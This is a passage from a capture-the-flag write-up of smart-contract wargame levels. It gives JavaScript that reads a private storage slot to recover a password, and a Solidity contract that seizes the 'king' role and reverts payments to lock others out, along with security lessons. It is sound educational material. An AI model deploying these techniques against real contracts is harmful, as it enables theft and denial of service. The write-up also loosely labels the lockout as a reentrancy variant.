 Attack steps:
1. Use web3.eth.getStorageAt to read content of storage slot 1 (password stored in slot 1).
```js
await web3.eth.getStorageAt(contract.address, 1).toString();
```
2. Use read password as parameter to call `unlock()` function.
```js
await contract.unlock(password);
```

Key learnings:
- Understanding Solidity storage layout
- Using low-level functions (like web3.eth.getStorageAt) to access private variables
- Don't store sensitive data directly on-chain, even with private keyword.
- If need to store sensitive data, recommend using encryption and only decrypt when necessary.

## 09. King ✅ [Easy]

This level tests understanding of special variant of reentrancy attack:
- Reentrancy attack is when attacker exploits contract vulnerability to call a function multiple times during execution to gain more benefits.
- Attackers can use reentrancy attack to gain contract control

Attack steps:
1. If current king is a smart contract and that contract's receive function can't receive ETH (or intentionally makes transaction fail), new king can't successfully call receive, thus preventing any other player from becoming new king.
2. Deploy an attack contract and become king through it.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack() public payable {
        // Call target contract and become new king
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // Intentionally make receive ETH function fail
    receive() external payable {
        revert("I refuse to give up the throne!");
    }
}
```

3. Deploy attack contract and provide sufficient ETH (greater than current prize)
